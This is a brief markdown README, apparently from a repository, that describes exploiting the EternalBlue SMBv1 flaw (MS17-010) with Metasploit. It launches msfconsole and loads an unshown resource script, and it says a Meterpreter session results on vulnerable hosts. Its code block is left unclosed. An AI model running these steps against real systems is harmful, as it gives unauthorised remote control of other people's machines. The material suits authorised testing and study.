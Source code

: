 # EternalBlue Exploit via Metasploit

This uses the famous SMBv1 vulnerability.

## Steps

```bash
msfconsole
> resource scripts/exploits/smb_ms17_010.rc

## Output
    You’ll get a Meterpreter session if vulnerable.
